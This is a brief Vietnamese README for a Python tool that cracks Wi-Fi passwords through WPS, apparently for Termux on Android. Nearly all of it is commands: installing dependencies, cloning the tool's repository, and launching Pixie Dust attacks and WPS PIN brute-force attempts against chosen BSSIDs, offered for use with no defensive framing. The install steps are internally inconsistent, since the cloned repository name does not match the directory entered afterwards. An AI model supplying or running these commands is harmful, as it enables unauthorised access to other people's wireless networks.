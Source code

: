 # AUTOPLAY
Crack wps wifi


![68747470733a2f2f692e6962622e636f2f4b3734673053432f68756c752e6a7067](https://github.com/user-attachments/assets/d3c0c73f-5a44-4b59-ade1-9e82a0ae8b06)


# Cài Đặt :
* pkg update && pkg upgrade -y
* pkg install root-repo -y
* pip install pycryptodome
* pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
* git clone https://github.com/autoplay2025/Wifi-Pass.git
* cd thoitiet
* chmod +x autoplay.py
* sudo python autoplay.py -i wlan0 -K
# Ghi Chú :
Đầu tiên hãy tắt Wifi.

Hiển thị các mạng khả dụng và bắt đầu tấn công Pixie Dust trên mạng được chỉ định.

sudo python autoplay.py -i wlan0 -K

Bắt đầu tấn công Pixie Dust vào BSSID được chỉ định: sudo python autoplay.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
Khởi chạy WPS bruteforce trực tuyến với nửa đầu mã PIN được chỉ định:
sudo python autoplay.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234

#Xử Lí Sự Cố
"Thiết bị hoặc tài nguyên đang bận (-16)" - Bật Wifi rồi tắt Wifi.
